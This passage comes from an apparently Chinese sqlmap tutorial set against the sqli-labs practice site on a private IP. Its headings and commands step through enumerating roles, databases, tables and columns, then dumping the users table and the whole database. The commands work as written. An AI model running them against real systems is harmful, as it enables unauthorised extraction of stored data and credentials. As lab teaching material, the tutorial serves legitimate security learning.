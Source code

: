 ```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --roles   
```

### ![](https://p1.ssl.qhimg.com/t01a095aa631969a7fc.png)

### 查看所有的数据库 (—dbs)

```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --dbs
```

### ![](https://p5.ssl.qhimg.com/t0189a6637411cb3482.png)

### 查看当前的数据库 (—current-db)

```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --current-db 
```

![](https://p4.ssl.qhimg.com/t0184d52d7edf6a0218.png)

### 爆出指定数据库中的所有的表

```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --tables 
```

![](https://p1.ssl.qhimg.com/t0154e7dcf64c049fce.png)

### 爆出指定数据库指定表中的所有的列

```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --columns
```

![](https://p4.ssl.qhimg.com/t01557f4395d91accdc.png)

### 爆出指定数据库指定表指定列下的数据

```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users -C username --dump  
```

![](https://p2.ssl.qhimg.com/t016b9a96c7c30a57d7.png)

### 爆出该网站数据库中的所有数据

```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --dump-all 
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --dump-all   
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --dump-all  

```
